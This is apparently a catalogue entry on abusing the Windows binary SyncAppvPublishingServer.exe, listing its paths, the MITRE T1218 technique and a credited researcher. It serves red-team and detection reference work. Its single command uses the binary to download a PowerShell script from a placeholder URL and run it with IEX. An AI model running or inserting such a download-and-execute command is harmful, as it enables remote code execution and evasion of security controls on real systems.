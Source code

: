 ## Syncappvpublishingserver.exe
```

SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString("http://some.url/script.ps1") | IEX
Execute powershell code from URL
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1218](https://attack.mitre.org/wiki/Technique/T1218)   
   
* Links:   
  * https://twitter.com/monoxgas/status/895045566090010624
   
* File path:   
  * C:\Windows\System32\Syncappvpublishingserver.exe
  * C:\Windows\SysWOW64\Syncappvpublishingserver.exe
   
* Acknowledgement:   
  * Name: Nick Landers
    * Twitter: [@monoxgas](https://twitter.com/@monoxgas)
    * Blog: 
   
OS:  
